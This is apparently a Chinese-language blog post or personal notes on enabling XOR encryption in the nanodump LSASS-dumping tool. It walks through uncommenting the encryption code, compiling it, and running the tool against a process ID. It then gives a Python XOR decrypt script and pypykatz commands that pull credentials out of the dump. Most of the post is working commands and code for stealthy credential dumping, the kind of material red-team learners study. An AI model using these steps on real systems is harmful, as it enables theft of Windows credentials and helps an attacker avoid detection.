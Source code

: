 ```yaml
---
layout: post
title: nanodump加密
category: ['lsadump','Done']

---
```




# nanodump加密

https://github.com/helpsystems/nanodump/blob/main/source/utils.c#L333

nanodump提供了dump文件的加密操作，也提供了简单的代码实例：

```
// for example, encrypt the dump with an XOR key
VOID encrypt_dump(
    IN PVOID base_address,
    IN SIZE_T region_size)
{
    //BYTE key = 0x2e;
    //PBYTE addr = NULL;

    //if (!base_address)
    //    return;

    //for (SIZE_T i = 0; i < region_size; i++)
    //{
    //    addr = RVA(PBYTE, base_address, i);
    //    *addr ^= key;
    //}
}
```



这里就将这段加密取消注释，编译一下

![img](https://vipkshttps7.wiz.cn/editor/61fb8210-36eb-11ec-9540-0159f173700b/810c34b3-f8d4-4d93-be21-00230bbf1fc8/resources/9wYnxPh3B1nzq_-vwfSG0EyqlD9035WM00qPFmMF_0E.png?token=W.NWh1R90lT77js0lp8G84-yK16Bi3s92URzY-LTx4Is5xPgY)

``make -f Makefile.mingw``

![img](https://vipkshttps7.wiz.cn/editor/61fb8210-36eb-11ec-9540-0159f173700b/810c34b3-f8d4-4d93-be21-00230bbf1fc8/resources/EdLApLyAaDJf-o68IHx6ar1sB_GhM6ZyKARSdpeBzU0.png?token=W.NWh1R90lT77js0lp8G84-yK16Bi3s92URzY-LTx4Is5xPgY)

上机测试：nanodump.x64.exe --fork --write 222.dmp -p 596

![img](https://vipkshttps7.wiz.cn/editor/61fb8210-36eb-11ec-9540-0159f173700b/810c34b3-f8d4-4d93-be21-00230bbf1fc8/resources/k179kmHPptuvvNt_PiFpjY0EWciqF1ppTocPNzUeOks.png?token=W.NWh1R90lT77js0lp8G84-yK16Bi3s92URzY-LTx4Is5xPgY)

将222.dmp拖回，还原sig然后用pypykatz解密，发现是无法直接解密的

![img](https://vipkshttps7.wiz.cn/editor/61fb8210-36eb-11ec-9540-0159f173700b/810c34b3-f8d4-4d93-be21-00230bbf1fc8/resources/sHyKizS9VATtVQ_V-sRjv0VGLVwyVWEpsxUIYdkZN2Y.png?token=W.NWh1R90lT77js0lp8G84-yK16Bi3s92URzY-LTx4Is5xPgY)

用py写一个异或解密

```
#!/usr/bin/env python
#-*- coding: UTF-8 -*-
with open('222.dmp', 'rb') as f:
    data = f.read()

f2 = open('333.dmp', 'ab')

i = 0
while i < len(data):
    f2.write(chr(ord(data[i])^0x2e))
    i+=1

f.close()
f2.close()
```



然后对解密的333.dmp进行还原

```
scripts ➤ ./restore_signature.sh 333.dmp                    

done, to analize the dump run:

python3 -m pypykatz lsa minidump 333.dmp

scripts ➤ python3 -m pypykatz lsa minidump 333.dmp
```

![img](https://vipkshttps7.wiz.cn/editor/61fb8210-36eb-11ec-9540-0159f173700b/810c34b3-f8d4-4d93-be21-00230bbf1fc8/resources/CPr1XssnNDdF6xbbIszZRF_vq9q-BRpsmKBn7lOn1O4.png?token=W.NWh1R90lT77js0lp8G84-yK16Bi3s92URzY-LTx4Is5xPgY)
